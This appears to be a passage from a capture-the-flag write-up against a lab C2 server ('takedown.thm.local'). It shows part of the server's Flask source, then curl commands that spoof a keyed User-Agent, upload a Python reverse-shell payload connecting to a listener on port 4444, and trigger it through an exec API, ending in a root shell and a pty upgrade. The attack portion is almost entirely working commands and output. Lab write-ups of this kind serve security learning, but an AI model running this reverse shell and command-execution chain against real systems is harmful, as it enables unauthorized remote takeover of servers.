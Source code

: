                 else:
                    return "Bad request", 400
            else:
                abort(404)
        else:
            abort(404)
    else:
        abort(404)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        return flask.render_template("index.html")
    else:
        abort(404)


CORS(app, resources={r"/*": {"origins": "*"}})


if __name__=="__main__":
    app.run(host="0.0.0.0", port=8000)

root@ip-10-10-11-235:~# 

root@ip-10-10-11-235:~# curl -X POST -A "z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/jytj-tdgr-hgbh-ptlx/download -H "Content-Type: application/json" -d '{"file": "revshell.py","data": "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.11.234\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])"}'
OK

curl -X POST -A "z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/jytj-tdgr-hgbh-ptlx/download -H "Content-Type: application/json" -d '{"file": "revshell.py","data": "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.49.180\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])"}'

root@ip-10-10-49-180:~# curl -X POST -A "z.5.x.2.l.8.y.5" http://takedown.thm.local/api/server/exec -H "Content-Type: application/json" -d '{"cmd": "python3 revshell.py"}'

![image](https://github.com/user-attachments/assets/148c263e-1d64-41d3-a17f-fa6e49f26259)


# whoami
root
# ls
Dockerfile
agent
aggressor.txt
app.py
bar.txt
favicon.ico
requirements.txt
revshell.py
teamserver.log
templates
# hostname
c2-shrike-1
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@c2-shrike-1:/home#  ls